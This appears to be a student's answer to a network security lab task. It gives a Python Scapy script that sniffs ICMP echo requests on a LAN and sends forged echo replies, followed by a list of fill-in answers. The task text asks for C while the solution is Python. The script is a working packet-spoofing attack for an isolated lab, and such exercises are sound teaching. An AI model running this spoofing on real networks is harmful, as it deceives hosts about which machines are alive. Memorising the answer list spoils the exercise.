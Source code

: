 In this task, you will combine the sniffing and spoofing techniques to implement the following sniff-and-
then-spoof program. You need two machines on the same LAN. From machine A, you ping an IP X. This
will generate an ICMP echo request packet. If X is alive, the ping program will receive an echo reply, and
print out the response. Your sniff-and-then-spoof program runs on the attacker machine, which monitors
the LAN through packet sniffing. Whenever it sees an ICMP echo request, regardless of what the target IP
address is, your program should immediately send out an echo reply using the packet spoofing technique.
Therefore, regardless of whether machine X is alive or not, the ping program will always receive a reply,
indicating that X is alive. You need to write such a program in C, and include screenshots in your report to
show that your program works. Please also attach the code (with adequate amount of comments) in your
report.

### 4.1

```python
#!/usr/bin/env python3
from scapy.all import *
def sniff_and_spoof(packet):
    if ICMP in packet:
        # Reverse source and destination 
        ip = IP(src=packet[IP].dst, dst=packet[IP].src)

        # Create ICMP echo reply
        icmp = ICMP(type=0, id=packet[ICMP].id, seq=packet[ICMP].seq)

        if Raw in packet:
            raw_data = packet[Raw].load
        else:
            raw_data = ""

        new_packet= ip/icmp/raw_data

        send(new_packet, verbose=0)
        print("Sent packet: ", new_packet.summary())
pkt = sniff(filter="icmp and icmp[0] == 8", prn=sniff_and_spoof, iface="br-407b98f0a521")
```

1- packet\[IP].dst
2- packet\[IP].src
3- type=0
4- pkt[ICMP].id
5- pkt[ICMP].seq
6- pkt[Raw].load
7- ip/icmp/raw_data
8- icmp and icmp\[0] == 8
